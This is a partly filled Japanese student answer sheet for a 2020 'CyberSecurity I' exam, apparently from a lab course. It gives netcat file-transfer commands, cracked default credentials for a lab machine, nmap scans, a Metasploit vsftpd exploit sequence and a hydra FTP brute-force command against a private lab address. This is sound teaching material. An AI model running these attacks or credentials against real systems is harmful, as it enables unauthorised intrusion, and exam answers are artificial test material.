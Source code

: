 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### 1.
#### サーバー側コマンド

```sh
# netcat -lvp 8888 

```
#### クライアント側コマンド

```sh
# netcat 「相手ipaddress」 8888 

```
### 1.
#### サーバー側コマンド

```sh
# netcat -lvp 8888（ポート番号） < file 

```
#### クライアント側コマンド

```sh
# netcat 「相手ipaddress」 8888（ポート番号） > file(copy)

```

## 問2 [Password Crack]

### 1.
```md
<!--  ここに回答を記述 -->
user user             (user)
vagrant vagrant
root toor        
service service    
postgres postgres 
msfadmin msfadmin   
klog 123456789     
sys batman           

```

### 2.
```md
<!--  ここに回答を記述 -->

```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# nmap -sP 192.168.30.0-127

```

### 2. version scan

```sh
# nmap -sV -p- 192.168.33.11 

```

## 問4 [Metasploit Framework]

```sh
# msfconsole
# search vsftpd
# use 0 
# set RHOST 192.168.33.11 
# exploit

```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# hydra -L user.list -P passwd.list -t 8 192.168.33.11 ftp 

```

### 2. 解析結果

```sh
# ここに回答を記述

```

## 問6 [Packet Sniffer]

```sh
# http && ip.addr==192.168.33.11 

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
50<!--  ここに回答を記述 -->

```

## 問9 [講義の感想]

1.

```md
パスワード解析の仕方<!--  ここに回答を記述 -->

```

2.
```md
引数などの理解が難しい<!--  ここに回答を記述 -->

```
